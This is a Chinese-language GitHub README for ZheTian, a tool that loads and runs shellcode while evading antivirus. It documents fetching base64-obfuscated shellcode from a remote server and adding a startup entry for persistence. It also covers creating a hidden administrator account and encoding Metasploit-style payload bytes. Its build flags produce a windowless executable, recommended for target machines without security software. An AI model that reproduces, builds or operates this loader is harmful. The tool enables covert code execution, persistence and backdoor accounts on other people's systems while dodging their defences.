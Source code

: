 ![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/logo.png "my-logo")

# [ZheTian](https://github.com/yqcs/ZheTian/)

## ZheTian Powerful remote load and execute ShellCode tool，免杀shellcode加载框架

### 命令详解

> -u  string：从远程服务器加载base64混淆后的字节码。
>
> -r string：从本地文件内读。
>
> -s string：读取无修改的原始文件，只能从本地加载。
>
>-m boolean：参数为true自动向启动项添加自启模块。
>
>-o boolean：向userHome\tmp目录输出一次性可执行文件，体积比主程序小了五六倍，同理砍去了其他功能，只保留了ShellCode Loader
>
>-n string：向管理员组创建用户，-n的参数即为账户，-p的参数为密码。需以管理员身份运行
>
>-c string：直接从命令行获取base64字符串。如：ZheTian -c ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M==...
>

## `·`如果releases里下载的可执行程序被安全软件查杀了，请下载源码重新编译一份！`·`

## 新增命令-o详解：

> 该命令主要是向用户目录下创建tmp文件夹，然后生产只包含shellcode的程序，体积小了五六倍，极致压缩，并且无任何回显。由于ShellCode写死在了程序内，所以导致用一段时间就会被查杀。
>
> 注意使用该命令需填充shellcode，同时拥有go环境。搭配-s、-u、-c、-r其中的任意命令即可，如：ZheTian -s payload.c -o true

## 示例：

### Base64字符串方式加载：

原始python代码：
> buf = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75..."

只需提取数组中的16进制代码：
> \xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75...
>
然后去除\x，得到：
> fc4883e4f0e8c88b52208b423c4801d0668178180b0275......
>
然后使用base64转码，得到：
> ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==
>
c、ruby等同理，Java之流的则是去除  ", 0x"。注意，是逗号空格0x
> byte buf[] = new byte[] { 0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc8, 0x00, 0x00, 0x00, 0x41};
>

获取到base64字符串之后可以选择放到远程服务器加载，使用-u 命令即可。也可以放到本地文件内，或者直接使用-c命令以命令行方式运行。如：ZheTian.exe -c
ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==

### 原文件读取类型：

使用 `ZheTian -h `命令可查看支持的语言。推荐使用Java、py、C语言。原文件无需进行任何修改即可直接加载，但是不支持放在远程服务器，只能通过本地 -s
命令读取，如： `ZheTian -s C:/Windows/Temp/payload.java`

### 图示操作过程

先生成64位shellcode

![my-logo.png](https://github.com/yqcs/ZheTian/blob/master/images/payload.jpg "my-logo")


然后根据需要的命令进行修改
![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/code.png "my-logo")


下面执行示例：
![my-logo.png](https://github.com/yqcs/ZheTian/blob/master/images/c.png "my-logo")

### 编译：

> go build -ldflags "-w -s" -o ZheTian.exe

可以使用
> go build -ldflags "-w -s -H windowsgui" -o ZheTian.exe

实现无窗口运行。但是360偶尔会识别为恶意程序。如果目标机器无安全设备，可以尝试使用此命令打包，然后使用参数： ` -o true` 实现写入启动项功能。

#### 带图标编译：

> 先执行：go get github.com/akavel/rsrc
>
> rsrc -manifest ZheTian.manifest -ico favicon.ico -o ZheTian.syso
>
>再执行go build -ldflags "-w -s" -o ZheTian.exe
>
> 更多介绍：https://blog.csdn.net/qq_38376348/article/details/108318880
>
![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/1.png "my-logo")

### 注意：打包的时候需指定是64位还是32位。默认会根据系统自动选择。 而在生成payload shellcode的时候也需要选择正确的位数，否则会加载失败。使用code字节码加载时一定要使用base64加密，否则无法解析！！

## 有问题可以提Issues，也可加微信联系

![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/wx.jpg "my-logo")
